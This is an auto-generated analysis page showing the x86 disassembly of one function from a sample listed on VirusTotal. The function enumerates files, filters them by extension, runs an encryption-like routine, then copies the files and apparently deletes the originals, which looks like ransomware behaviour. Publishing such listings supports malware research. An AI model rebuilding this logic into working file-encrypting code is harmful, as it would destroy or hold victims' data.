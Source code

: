 ```yaml
---
layout: post
title:  "fcn.0040bd70 @ 9c2b894b84f59672d8be2e984066f76f"
date:   2021-08-30 15:52:19 +0300
categories: report
index: false
---
```


# Generic Information
- **Function:** fcn.0040bd70
- **Origin (md5):** 9c2b894b84f59672d8be2e984066f76f
- **VirusTotal:** [virustotal.com/gui/file/9c2b894b84f59672d8be2e984066f76f][virustotal_ref]

# Code Tags
<span class="tag" id="FILE">FILE</span>


# Similar Functions

1. [fcn.100c3f20][similar_1_ref] (sim.: 0.9215811751830065)
2. [fcn.0043e07b][similar_2_ref] (sim.: 0.9123161279239965)
3. [fcn.0043e07b][similar_3_ref] (sim.: 0.9123161279239965)
4. [fcn.0043e07b][similar_4_ref] (sim.: 0.9123161279239965)
5. [fcn.0043d4f1][similar_5_ref] (sim.: 0.905338444613407)


# Disassembled Code

{% highlight nasm %}
push ebp
mov ebp,esp
push 0xffffffffffffffff
push 0x575626
mov eax,dword fs:[0]
push eax
sub esp,0xf14
mov eax,dword[0x5d9004]
xor eax,ebp
mov dword[ebp-0x10],eax
push ebx
push esi
push edi
push eax
lea eax,[ebp-0xc]
mov dword fs:[0],eax
mov esi,edx
mov dword[ebp-0xefc],esi
mov ebx,ecx
mov dword[ebp-0xef0],ebx
push str._c_mkdir__
lea eax,[ebp-0x3f8]
mov dword[ebp-0xf20],0x5b932c
push 0x1f4
push eax
mov dword[ebp-0xf1c],0x5b9334
mov dword[ebp-0xf18],0x5b9338
mov dword[ebp-0xf14],0x5b9340
mov dword[ebp-0xf10],0x5b9344
mov dword[ebp-0xf0c],0x5b934c
mov dword[ebp-0xf08],0x5b9350
mov dword[ebp-0xf04],0x5b9354
mov byte[ebp-0x3f8],0
call fcn.0055d83d
push esi
lea eax,[ebp-0x3f8]
push 0x1f4
push eax
call fcn.0055d83d
push 0x5b8e6c
lea eax,[ebp-0x3f8]
push 0x1f4
push eax
call fcn.0055d83d
lea eax,[ebp-0x3f8]
push eax
push str.move_path_command_:__s_n
call fcn.00405f90
add esp,0x2c
lea eax,[ebp-0x3f8]
push 0
push 0
push eax
push 0x5b937c
push 0
push 0
call dword[sym.imp.SHELL32.dll_ShellExecuteA]
push 0x1f4
call dword[sym.imp.KERNEL32.dll_Sleep]
push ebx
lea eax,[ebp-0xbc8]
mov byte[ebp-0xbc8],0
push 0x1f4
push eax
call fcn.0055d83d
push 0x5b9380
lea eax,[ebp-0xbc8]
push 0x1f4
push eax
call fcn.0055d83d
lea eax,[ebp-0xee8]
push eax
lea eax,[ebp-0xbc8]
push eax
call fcn.0055cedc
mov ebx,eax
add esp,0x20
mov dword[ebp-0xf00],ebx
cmp ebx,0xffffffff
jne 0x40bee2
push str.There_were_no_files._n
call fcn.00405f90
add esp,4
or eax,ebx
jmp 0x40c32e
lea eax,[ebp-0xec4]
push eax
push str.File:__s_n
call fcn.00405f90
push dword[ebp-0xee8]
push str.attrb_:__d_n
call fcn.00405f90
push 0x10
push str.dddd_:__d_n
call fcn.00405f90
lea eax,[ebp-0xec4]
push eax
lea eax,[ebp-0xdbc]
push 0x1f4
push eax
call fcn.0055d8a6
lea eax,[ebp-0xdbc]
push eax
push str.copiedFdName_:__s_n
call fcn.00405f90
add esp,0x2c
mov dword[ebp-0xdc0],0
lea eax,[ebp-0xdbc]
lea ecx,[ebp-0xdc0]
push eax
call fcn.00404510
push 2
lea eax,[ebp-0xef4]
mov dword[ebp-4],0
push eax
lea ecx,[ebp-0xdc0]
call fcn.0040c450
push eax
lea ecx,[ebp-0xdc0]
mov byte[ebp-4],1
call fcn.004093c0
mov byte[ebp-4],0
or eax,0xffffffff
mov edx,dword[ebp-0xef4]
add edx,0xfffffff0
lock xadd dword[edx+0xc],eax
dec eax
test eax,eax
jg 0x40bfa4
mov ecx,dword[edx]
push edx
mov eax,dword[ecx]
call dword[eax+4]
mov eax,dword[ebp-0xdc0]
mov dword[ebp-0xef8],eax
lea eax,[ebp-0xeec]
push eax
lea eax,[ebp-0xdbc]
mov dword[ebp-0xeec],0
push 0x5b93d8
push eax
call fcn.0055d023
mov esi,eax
add esp,0xc
xor edi,edi
test esi,esi
je 0x40c009
nop dword[eax]
push esi
push str.token_:__s_n
call fcn.00405f90
lea eax,[ebp-0xeec]
mov edi,esi
push eax
push 0x5b93d8
push 0
call fcn.0055d023
mov esi,eax
add esp,0x14
test esi,esi
jne 0x40bfe0
push edi
push str.ext_:__s_n
call fcn.00405f90
add esp,8
xor ebx,ebx
xor esi,esi
nop dword[eax+eax]
test edi,edi
je 0x40c076
mov eax,dword[ebp+esi*4-0xf20]
mov ecx,edi
nop dword[eax]
mov dl,byte[ecx]
cmp dl,byte[eax]
jne 0x40c050
test dl,dl
je 0x40c04c
mov dl,byte[ecx+1]
cmp dl,byte[eax+1]
jne 0x40c050
add ecx,2
add eax,2
test dl,dl
jne 0x40c030
xor eax,eax
jmp 0x40c055
sbb eax,eax
or eax,1
test eax,eax
jne 0x40c076
push 0x7e24
push dword[ebp-0xef8]
call fcn.005558c0
add esp,8
test eax,eax
mov eax,1
cmove ebx,eax
inc esi
cmp esi,8
jl 0x40c020
cmp dword[ebp-0xee8],0x10
jne 0x40c15e
mov ecx,0x5b93d8
lea eax,[ebp-0xec4]
mov dl,byte[eax]
cmp dl,byte[ecx]
jne 0x40c0b4
test dl,dl
je 0x40c0b0
mov dl,byte[eax+1]
cmp dl,byte[ecx+1]
jne 0x40c0b4
add eax,2
add ecx,2
test dl,dl
jne 0x40c094
xor eax,eax
jmp 0x40c0b9
sbb eax,eax
or eax,1
test eax,eax
je 0x40c15e
mov ecx,0x5b93f4
lea eax,[ebp-0xec4]
nop dword[eax]
mov dl,byte[eax]
cmp dl,byte[ecx]
jne 0x40c0f0
test dl,dl
je 0x40c0ec
mov dl,byte[eax+1]
cmp dl,byte[ecx+1]
jne 0x40c0f0
add eax,2
add ecx,2
test dl,dl
jne 0x40c0d0
xor eax,eax
jmp 0x40c0f5
sbb eax,eax
or eax,1
test eax,eax
je 0x40c15e
push dword[ebp-0xef0]
lea eax,[ebp-0x9d4]
mov byte[ebp-0x9d4],0
push 0x1f4
push eax
call fcn.0055d83d
push 0x5b93f8
lea eax,[ebp-0x9d4]
push 0x1f4
push eax
call fcn.0055d83d
lea eax,[ebp-0xec4]
push eax
lea eax,[ebp-0x9d4]
push 0x1f4
push eax
call fcn.0055d83d
lea eax,[ebp-0x9d4]
push eax
push str.subPath__s_n
call fcn.00405f90
add esp,0x2c
jmp 0x40c2dd
cmp ebx,1
jne 0x40c2dd
push dword[ebp-0xef0]
lea eax,[ebp-0x204]
mov byte[ebp-0x204],0
push 0x1f4
push eax
call fcn.0055d83d
push 0x5b93f8
lea eax,[ebp-0x204]
push 0x1f4
push eax
call fcn.0055d83d
lea eax,[ebp-0xec4]
push eax
lea eax,[ebp-0x204]
push 0x1f4
push eax
call fcn.0055d83d
lea eax,[ebp-0x204]
mov byte[ebp-0x5ec],0
push eax
lea eax,[ebp-0x5ec]
push 0x1f4
push eax
call fcn.0055d83d
push 0x5b93d8
lea eax,[ebp-0x5ec]
push 0x1f4
push eax
call fcn.0055d83d
push 0x5b9328
lea eax,[ebp-0x5ec]
push 0x1f4
push eax
call fcn.0055d83d
add esp,0x48
lea eax,[ebp-0x204]
push eax
push str.inFile_Full_Path_:__s_n
call fcn.00405f90
lea eax,[ebp-0x5ec]
push eax
push str.outFile_Full_Path_:__s_n
call fcn.00405f90
lea edx,[ebp-0x5ec]
lea ecx,[ebp-0x204]
call fcn.0040c350
mov esi,eax
push esi
push str.encResult_:__d_n
call fcn.00405f90
add esp,0x18
test esi,esi
jne 0x40c2dd
push dword[ebp-0xefc]
lea eax,[ebp-0x7e0]
mov byte[ebp-0x7e0],0
push 0x1f4
push eax
call fcn.0055d83d
push 0x5b93f8
lea eax,[ebp-0x7e0]
push 0x1f4
push eax
call fcn.0055d83d
lea eax,[ebp-0xec4]
push eax
lea eax,[ebp-0x7e0]
push 0x1f4
push eax
call fcn.0055d83d
add esp,0x24
lea eax,[ebp-0x7e0]
push esi
push eax
lea eax,[ebp-0x204]
push eax
call dword[sym.imp.KERNEL32.dll_CopyFileA]
mov esi,eax
lea eax,[ebp-0x7e0]
push eax
push str.moveFile_Full_Path_:__s_n
call fcn.00405f90
push esi
push str.copy_result_:__d_n
call fcn.00405f90
lea eax,[ebp-0x204]
push eax
call fcn.0055d065
add esp,0x14
mov ebx,dword[ebp-0xf00]
lea eax,[ebp-0xee8]
push eax
push ebx
call fcn.0055cee7
mov dword[ebp-4],0xffffffff
add esp,8
mov edx,dword[ebp-0xdc0]
mov esi,eax
add edx,0xfffffff0
or ecx,0xffffffff
lock xadd dword[edx+0xc],ecx
dec ecx
test ecx,ecx
jg 0x40c31a
mov ecx,dword[edx]
push edx
mov eax,dword[ecx]
call dword[eax+4]
cmp esi,0xffffffff
jne 0x40bee2
push ebx
call fcn.0055ceb6
add esp,4
xor eax,eax
mov ecx,dword[ebp-0xc]
mov dword fs:[0],ecx
pop ecx
pop edi
pop esi
pop ebx
mov ecx,dword[ebp-0x10]
xor ecx,ebp
call fcn.00553199
mov esp,ebp
pop ebp
ret
{% endhighlight %}


[similar_1_ref]: /report/fcn.100c3f20@a0ac129ff3ea4c0dfa9529c259a9502c
[similar_2_ref]: /report/fcn.0043e07b@505be53c36227b94e2fcc406f247f6e5
[similar_3_ref]: /report/fcn.0043e07b@96a869ae624ddb4834a1d5a829f85469
[similar_4_ref]: /report/fcn.0043e07b@c077742bdc6d4f2c0ca7d0e2a6a94acf
[similar_5_ref]: /report/fcn.0043d4f1@56a02334aea008c131d2741a089910fb
[virustotal_ref]: https://www.virustotal.com/gui/file/9c2b894b84f59672d8be2e984066f76f